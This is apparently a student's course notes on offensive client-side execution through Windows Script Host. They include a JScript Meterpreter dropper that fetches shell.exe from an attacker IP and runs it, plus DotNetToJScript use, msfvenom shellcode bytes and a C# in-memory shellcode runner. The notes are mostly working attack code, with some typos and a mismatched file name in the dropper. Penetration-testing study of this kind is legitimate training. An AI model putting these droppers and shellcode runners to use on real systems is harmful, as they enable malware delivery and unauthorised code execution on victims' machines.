

# chapter 4 client side code execution with windows script host

Jscript is a dialect of JavaScript developed and owned by Microsoft that is used in Internet 
Explorer. It can also be executed outside the browser through the Windows Script Host,
197 which 
can execute scripts in a variety of languages

in order to check execution we can see default application by file type.

### Execution of jscript on windows

Js script can be directly executed onwindows thats why they are important

As mentioned previously, executing Jscript outside the context of a web browser bypasses all 
security settings. This allows us to interact with the older ActiveX198 technology and the Windows 
Script Host engine itself. Let’s discuss what we can do with this combination.

As shown in the code in Listing 116, we can leverage ActiveX by invoking the ActiveXObject199
constructor by supplying the name of the object. We can then use WScript.Shell to interact with 
the Windows Script Host Shell to execute external Windows applications. For example, we can 
instantiate a Shell object named “shell” from the WScript.Shell class through the ActiveXObject
constructor to run cmd.exe through the Run command

Checking on windows 10 the extension  is jse


### Exercises

1. Create a simple Jscript file that opens an application.

made at: open_application.jse

2. Look through the list of default applications related to file types. Are there any other 
interesting file types we could leverage?

- .msc
- .perl
- .VBE
- .vbs
- .WSF
- .WSH

3. The .vbs extension is also linked to the Windows Script Host format. Write a simple VBScript 
file to open an application

made at: open_chrome.vbs

### Jscript Meterpreter Dropper

creating a dropper to inject the payload into.

dropper.jse works but is detected as malicious.

```js
var url = "http://10.10.6.12/shell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
Object.Open('GET', url, false);
Object.Send();
if (Object.Status == 200)
{
 var Stream = WScript.CreateObject('ADODB.Stream');
 Stream.Open();
 Stream.Type = 1;
 Stream.Write(Object.ResponseBody);
 Stream.Position = 0;
 Stream.SaveToFile("met.exe", 2);
 Stream.Close();
}
var r = new ActiveXObject("WScript.Shell").Run("shell.exe");
```

### 4.1.2.1 Exercises
1. Replicate the Jscript file from this section.

done 
2. Modify the Jscript code to make it proxy-aware with the setProxy method. You can use the 
Squid proxy server installed on the Windows 10 development machine.

# Jscript and C#

Since there’s no known way to invoke the Win32 APIs directly from Jscript, we’ll instead embed a 
compiled C# assembly in the Jscript file and execute it. This will give us the same capabilities as 
PowerShell since we will have comparable access to the .NET framework. 

# introduction to visual studio

we need to connect our kali instance with window

install on kali

```
sudo apt install samba
sudo mv /etc/samba/smb.conf /etc/samba/smb.conf.old
sudo nano /etc/samba/smb.conf
```
add this in the conf file

```
[visualstudio]
path = /home/kali/data
browseable = yes
read only = no
```

we need to create a samba user that can access the share and then start when required.

```
sudo smbpasswd -a kali
```

starting the samba server

```
sudo systemctl start smbd
sudo systemctl start nmbd
```
make a shared folder and open up the permissions for visual studio

```
mkdir /home/kali/data
chmod -R 777 /home/kali/data
```

With everything set up, we’ll turn to our Windows 10 development machine. First, we’ll open the 
new share in File Explorer (\\192.168.119.120 in our case). When prompted, we’ll enter the 
username and password of the newly created SMB user and select the option to store the 
credentials.

Staring a simple helloworld application

select visual studio
create new project
language select C#
use console app(.Net framework)

opening the app we see

```C#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
namespace ConsoleApp1
{
 class Program
 {
 static void Main(string[] args)
 {  
    console.WriteLine("Hello world");
 }
 }
}
```

### 4.2.1.1 Exercises
1. Set up the Samba share on your Kali system as shown in this section.


   
2. Create a Visual Studio project and follow the steps to compile and execute the “Hello World” application.


```
Hello World!

C:\Users\HP\source\repos\JscriptHelloWorld\bin\Debug\net5.0\JscriptHelloWorld.exe (process 7148) exited with code 0.
To automatically close the console when debugging stops, enable Tools->Options->Debugging->Automatically close the console when debugging stops.
Press any key to close this window . . .

```

# Using DotNetToJsScript

downloading DotNetTojscript
using https://github.com/tyranid/DotNetToJScript


looking into the project using vs studio, we see that 
Jscript will eventually execute the content of the TestClass method, which is inside the TestClass
class. In this case, we are simply executing the MessageBox.Show220 method.

Notice that the Solution Explorer lists a second project (DotNetToJscript) that converts the 
assembly into a format that Jscript can execute.

after using relaese/build we find that we need DotNetToJscript.exe , NDesk.Options.dll and Exampleassembly.dll in order to rn the DotnetToJscript program.

we can use the script as -

DotNettoJScript.exe ExampleAssembly.dll --lanf=Jscript --ver=v4 -o demo.js.


using dotnettojs script we an execute any arbritary C# script as JSScript


But when using jscript I get the following message:

```
C:\Users\misthios\codeplay\pen300\book\chapter4>DotNetToJScript.exe ExampleAssembly.dll --lang=Jscript --ver=v4 -o demo.js
This tool should only be run on v2 of the CLR

C:\Users\misthios\codeplay\pen300\book\chapter4>csc
Microsoft (R) Visual C# Compiler version 4.8.4084.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft (R) .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240

warning CS2008: No source files specified
error CS1562: Outputs without source must have the /out option specified
```

looking further at my configuration

```
PS C:\Users\misthios\codeplay\pen300\book\chapter4> $PSVersionTable
>>

Name                           Value
----                           -----
PSVersion                      5.1.19041.1682
PSEdition                      Desktop
PSCompatibleVersions           {1.0, 2.0, 3.0, 4.0...}
BuildVersion                   10.0.19041.1682
CLRVersion                     4.0.30319.42000
WSManStackVersion              3.0
PSRemotingProtocolVersion      2.3
SerializationVersion           1.1.0.1

```

after that the chapter goes into detals regarding dotnettojscript.


## Problem face while installing was solved by

getting the dotnetto js script binaries from the release and then just building exampleassembly downloading from the github.


### 4.2.2.1 Exercises
1. Set up the DotNetToJscript project, share it on the Samba share, and open it in Visual Studio.
   
2. Compile the default ExampleAssembly project and convert it into a Jscript file with 
DotNetToJscript.



3. Modify the TestClass.cs file to make it launch a command prompt instead of opening a 
MessageBox


```
 string command = "notepad.exe";
 Process.Start("cmd.exe", "/C" + command);
```
works

## using win32 api on C#

it work in a C# project

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;
namespace ConsoleApp1
{
    class Program
    {
        [DllImport("user32.dll", CharSet = CharSet.Auto)]
        public static extern int MessageBox(IntPtr hWnd, String text, String caption,
       int options);
        static void Main(string[] args)
        {
            MessageBox(IntPtr.Zero, "This is my text", "This is my caption", 0);
        }
    }
}
```


# shellcode runner in C#

we will be using virtualalloc, createhtread and wait for single object to execute shellcode in memory

```
└─$ msfvenom -p windows/exec CMD=calc.exe -b "x00" -f csharp
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of csharp file: 1146 bytes
byte[] buf = new byte[220] {
0xbf,0xb1,0x27,0x68,0x73,0xdb,0xd9,0xd9,0x74,0x24,0xf4,0x5b,0x2b,0xc9,0xb1,
0x31,0x31,0x7b,0x13,0x03,0x7b,0x13,0x83,0xc3,0xb5,0xc5,0x9d,0x8f,0x5d,0x8b,
0x5e,0x70,0x9d,0xec,0xd7,0x95,0xac,0x2c,0x83,0xde,0x9e,0x9c,0xc7,0xb3,0x12,
0x56,0x85,0x27,0xa1,0x1a,0x02,0x47,0x02,0x90,0x74,0x66,0x93,0x89,0x45,0xe9,
0x17,0xd0,0x99,0xc9,0x26,0x1b,0xec,0x08,0x6f,0x46,0x1d,0x58,0x38,0x0c,0xb0,
0x4d,0x4d,0x58,0x09,0xe5,0x1d,0x4c,0x09,0x1a,0xd5,0x6f,0x38,0x8d,0x6e,0x36,
0x9a,0x2f,0xa3,0x42,0x93,0x37,0xa0,0x6f,0x6d,0xc3,0x12,0x1b,0x6c,0x05,0x6b,
0xe4,0xc3,0x68,0x44,0x17,0x1d,0xac,0x62,0xc8,0x68,0xc4,0x91,0x75,0x6b,0x13,
0xe8,0xa1,0xfe,0x80,0x4a,0x21,0x58,0x6d,0x6b,0xe6,0x3f,0xe6,0x67,0x43,0x4b,
0xa0,0x6b,0x52,0x98,0xda,0x97,0xdf,0x1f,0x0d,0x1e,0x9b,0x3b,0x89,0x7b,0x7f,
0x25,0x88,0x21,0x2e,0x5a,0xca,0x8a,0x8f,0xfe,0x80,0x26,0xdb,0x72,0xcb,0x2c,
0x1a,0x00,0x71,0x02,0x1c,0x1a,0x7a,0x32,0x75,0x2b,0xf1,0xdd,0x02,0xb4,0xd0,
0x9a,0xfd,0xfe,0x79,0x8a,0x95,0xa6,0xeb,0x8f,0xfb,0x58,0xc6,0xd3,0x05,0xdb,
0xe3,0xab,0xf1,0xc3,0x81,0xae,0xbe,0x43,0x79,0xc2,0xaf,0x21,0x7d,0x71,0xcf,
0x63,0x1e,0x14,0x43,0xef,0xcf,0xb3,0xe3,0x8a,0x0f };

```

The csharp library imports 

```C#
[DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint 
flAllocationType, 
 uint flProtect);
[DllImport("kernel32.dll")]
static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
 IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr 
lpThreadId);
[DllImport("kernel32.dll")]
static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds)
```

in main

```csharp
byte[] buf = new byte[626] {
 0xfc,0x48,0x83,0xe4,0xf0,0xe8...
int size = buf.Length;
IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);
Marshal.Copy(buf, 0, addr, size);
IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
WaitForSingleObject(hThread, 0xFFFFFFFF)
```


